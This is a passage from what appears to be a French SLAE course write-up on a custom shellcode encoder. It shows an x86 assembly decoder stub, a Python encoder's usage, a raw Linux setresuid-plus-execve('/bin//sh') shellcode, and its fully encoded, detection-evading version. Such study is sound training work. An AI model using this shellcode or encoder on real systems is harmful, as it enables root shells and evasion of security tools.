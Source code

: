 ```c
impair:
	mov byte bl, [edi+1]					; set bl with the first byte after 0xFF
	mov byte dl, [edi+2]					; set dl with the second byte after 0xFF
	xor bl, dl
	mov [esi], bl						; we store the decoded byte into esi

final:
	call [esp]						; we jump to the address pointed by esp, our saved esi.	

Shellcode:
	call decoder
	shell: db 0x03,0xfb,0xcc,0x04,0x1a,0xe5,0x03,0x45,0xce,0x05,0x2e,0xb5,0x02,0x6b,0xcf,0x01,0x78,0xf8,0x08,0xb8,0x59,0x0a,0x51,0x39,0x0a,0x66,0x7d,0x03,0x03,0x6b,0x03,0x50,0x65,0x06,0x0d,0x74,0x06,0x70,0xe9,0x0a,0xe2,0x93,0x08,0xb9,0x5b,0x03,0x6b,0xe4,0x02,0xbd,0x0d,0x09,0x56,0x89

```


## Exemples ##

### Encodage ###

```c
usage: Encoder Python SLAE [-h] -s SHELLCODE [-a ACTION]

Encoder shellcode

optional arguments:
  -h, --help    show this help message and exit
  -s SHELLCODE  shellcode
  -a ACTION     encode or decode
```

Nous executons le programme :

```c
encode_decode.py -s 
"\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
-a encode
```

Et nous obtenons la version encodé de notre shellcode

```c
"\xeb\x40\x5e\x56\x89\xf7\x31\xc9\xf7\xe1\xb9\x17\x31\xc0\x31\xdb\x31\xd2\x8a\x07\x3c\xff\x74\x1a\x8a\x57\x01\x28\xc2\x8a\x5f\x02\x28\xc3\x30\xda\x88\x16\x88\x5e\x01\x46\x46\x47\x47\x47\xe2\xdc\xeb\x0a\x8a\x5f\x01\x8a\x57\x02\x30\xd3\x88\x1e\xff\x14\x24\xe8\xbb\xff\xff\xff\x03\xfb\xcc\x04\x1a\xe5\x03\x45\xce\x05\x2e\xb5\x02\x6b\xcf\x01\x78\xf8\x08\xb8\x59\x0a\x51\x39\x0a\x66\x7d\x03\x03\x6b\x03\x50\x65\x06\x0d\x74\x06\x70\xe9\x0a\xe2\x93\x08\xb9\x5b\x03\x6b\xe4\x02\xbd\x0d\x09\x56\x89";
```

### decodage python ###
